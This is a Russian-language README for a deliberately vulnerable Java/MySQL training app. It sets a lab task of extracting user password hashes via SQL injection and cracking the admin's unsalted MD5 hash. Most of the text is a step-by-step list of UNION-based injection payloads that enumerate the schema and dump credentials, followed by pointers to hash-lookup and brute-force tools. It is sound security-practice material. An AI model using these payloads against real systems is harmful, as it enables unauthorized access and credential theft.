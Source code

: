 # SQLInjectionsAndHashPractise
Проект для практики по SQL 
инъекциям и расшифровки паролей, 
представленных в виде хешей.

Для запуска данного проекта потребуется:

1) Любая среда разработки под Java (JDK и JRE, версия java 7 и старше)
2) БД MySQL (использовавлась версия 5.6)
3) Любой apllication server (Для запуска использовался контейнер сервлетов Tomcat версии 8.0.18)

Подготовительный этап:

Перед запуском приложения необходимо испортировать схему в БД MySQL. Файл injection_practise_db_dump.sql.

Запуск и работа с прложением:

После запуска приложения переходим на localhost с указанием порта, на который мы развернули application server (или servlet's 
container). После открытия главной страницы приложения переходим по ссылке Example 1: Login form видим форму, предназначенную
для входа пользователя. Известно, что есть пользователь с логином user и паролем password, за которого можно войти в 
приложение и убедиться в его работоспособности (сообщение "Hello, user! Log out").

Задача:

Данная форма уязвима к SQL инъекциям. С их помощью следует получить список всех пользователей и хеши их паролей.
Далее необходимо определить пароль пользователя "admin" и войти в систему как администратор.

Возможный алгоритм решения:

  SQL инъекции:
  
	1)  Проверим наличие уязвимости к SQL инъекциям. (Ввести символ ' в поле Username, чтобы увидеть сообщение об ошибке);
	2)  Написать вилидный SQL запрос (чтобы не было сообщения об SQL ошибке, например a' or '1' = ' )
	3)  Подбираем количество столбцов с помощью чисел: 
	
    	a' union select 1 from information_schema.TABLES where '1' = '1' or '1' = '
    	a' union select 1,2 from information_schema.TABLES where '1' = '1' or '1' = '
    	a' union select 1,2,3 from information_schema.TABLES where '1' = '1' or '1' = '
    	
  4)  Попробовать узнать прочую информацию:
    	
    	a' union select 1,version(),3 from users where '1' = '1' or '1' = '
    	a' union select 1,user(),3 from users where '1' = '1' or '1' = '
    	a' union select 1,database(),3 from users where '1' = '1' or '1' = '
	
	5)  Зная название базы узнаем названием таблиц в ней:
	    a' union SELECT 1,TABLE_NAME,3 from information_schema.TABLES WHERE TABLE_SCHEMA = 'md5practise' or '1' = '
  6)  Теперь надо узнать имена столбцов:
	    a' union SELECT 1,group_concat(COLUMN_NAME),3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'md5practise' AND TABLE_NAME = 'users' or '1' = '
	7)  Пытаемся получить содержимое таблицы users: 
	    a' union select 1,2,3 from users where '1' = '1' or '1' = '
	8) Теперь можно достать информацию из базы о пользователе: 
    	
    	a' union select 1,nick,3 from users where '1' = '1' or '1' = '
    	a' union select 1,username,3 from users where '1' = '1' or '1' = '
    	a' union select 1,password,3 from users where '1' = '1' or '1' = '
	
	Прочие примеры:
	
	    Можно экспериментировать с условиями:
    	
    	a' union select 1,username,3 from users where id_user = 1 or '1' = '
    	a' union select 1,username,3 from users where id_user = 1 or true -- 
    	a' union select 1,username,3 from users where id_user = 1 or true --  
      
      Объединить несколько полей в одном:
	    a' union select 1,group_concat(concat(username, 0x3a, password)),3 from users where '1' = '1' or '1' = '
	
  Определение пароля по значению хеш функции:
  
  Для определения пароля по его хеш функции следует:
  
  1) Определить, каким алгоритмом захеширован пароль (Подсказка: в данной работе использовавлся алгоритм md5 (без "соли"))
  2) Попробовать поискать хеш по базам хешей, например: http://www.md5online.org/md5-decrypt.html 
  3) Полный перебор (Например, программа Bars: http://3.14.by/ru/md5)
  
